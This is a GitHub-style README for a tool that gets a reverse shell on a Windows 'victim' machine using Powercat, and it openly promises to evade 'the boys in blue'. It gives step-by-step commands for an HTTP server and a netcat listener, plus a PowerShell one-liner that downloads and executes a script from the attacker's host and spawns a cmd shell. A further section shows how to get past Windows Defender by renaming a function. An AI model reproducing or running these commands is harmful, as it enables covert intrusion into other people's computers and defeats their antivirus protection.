

# Reverseshell-Powercat-v2
<p align="left"></p>

A guide to evade the boys in blue when acquiring a reverse shell using Powercat v2 on Windows

## About this Guide
This guide allows you to acquire a reverse shell while bypassing anti-virus software on a Windows computer using a single Powershell script.

Powercat is essentially the powershell version of netcat. It is a network utility for performing low-privilege network communication operations that makes use of native PowerShell version 2 components. 

# Usage
Clone this repository and change working directory
```
git clone https://github.com/rexpository/reverseshell-powercat-v2.git
cd reverseshell-powercat-v2
```

Start a Python HTTP server on a port of your choice (e.g., 80) for the victim to access the script
```
python -m SimpleHTTPServer 80
```

Start a Netcat listener on a port of your choice (e.g., 4444) for obtaining a reverse connection
```
sudo apt-get install netcat
nc -lp 4444
```

On your Windows victim machine, run the following Powershell command inside the command prompt (CMD). 
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://YOURIP:80/powercat.ps1');powerrcatt -c YOURIP -p 4444 -e cmd"
```
Note: the IP address should be your host's local IP address (Linux IP address); make sure to replace ports 80 and 4444 in the command with your own configurations.

You will obtain a reverse shell in the Netcat listener once the command is executed. To check what account type you're logged into, use the command *whoami*. 

<p align="left"></p>

# Evading Anti-virus
For the time being, if the powershell script is detected as malware by Windows Defender or other anti-virus software, this issue can be resolved by changing the name of the powerrcatt function.

Open up *powercat.ps1* with ur favorite text editor and change the name of the function powerrcatt to whatever you would like (e.g., powerrrrcat)

Original script:
```
function powerrcatt
{
  param(
    [alias("Client")][string]$c="",
    [alias("Listen")][switch]$l=$False,
```
Updated script:
```
function powerrrrcat
{
  param(
    [alias("Client")][string]$c="",
    [alias("Listen")][switch]$l=$False,
```

Make sure that you update the powershell command from earlier to reflect these changes:

Original command:
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://YOURIP:80/powercat.ps1');powerrcatt -c YOURIP -p 4444 -e cmd"
```
Updated command:
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://YOURIP:80/powercat.ps1');powerrrrcat -c YOURIP -p 4444 -e cmd"
```

# Credits
- Credits to @besimorhino for developing powercat
- Check out the official documentation here: https://github.com/besimorhino/powercat